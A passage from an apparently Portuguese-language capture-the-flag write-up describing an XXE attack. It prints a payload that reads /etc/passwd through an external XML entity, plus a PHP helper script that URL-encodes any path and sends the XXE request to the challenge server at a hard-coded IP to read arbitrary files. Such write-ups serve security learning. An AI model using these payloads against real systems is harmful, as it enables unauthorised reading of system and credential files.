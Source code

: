 ```bash
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE darkcodexxe [ <!ELEMENT darkcodexxe ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><darkcodexxe>&xxe;</darkcodexxe>
deu certo porem via texto plano não iria dá certo então encodei novamente
```
![payload](https://github.com/darkcode357/ctf_critical/blob/master/Screenshot%20from%202019-11-15%2017-28-33.png?raw=true)

> para não ficar perdendo tempo, eu criei um script em php para me ajudar 
```php
<?php
$ls = $_REQUEST['ls'];

function ls($path){
    $cmd = "file%3A%2F%2F%2F".urlencode($path);
    $command = file_get_contents("http://142.93.73.149:12321/?xml=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22ISO-8859-1%22%3F%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22{$cmd}%22%20%3E]%3E%3Cfoo%3E%26xxe%3B%3C%2Ffoo%3E");
    return $command;
}

echo ls($ls);
?>

```
> para ficar fazendo todas as request para min 
>como usar view-source:http://localhost/?ls=etc/passwd
>e foi desse jeito que eu peguei a flag
>analisando o /etc/passwd,e o /etc/shells
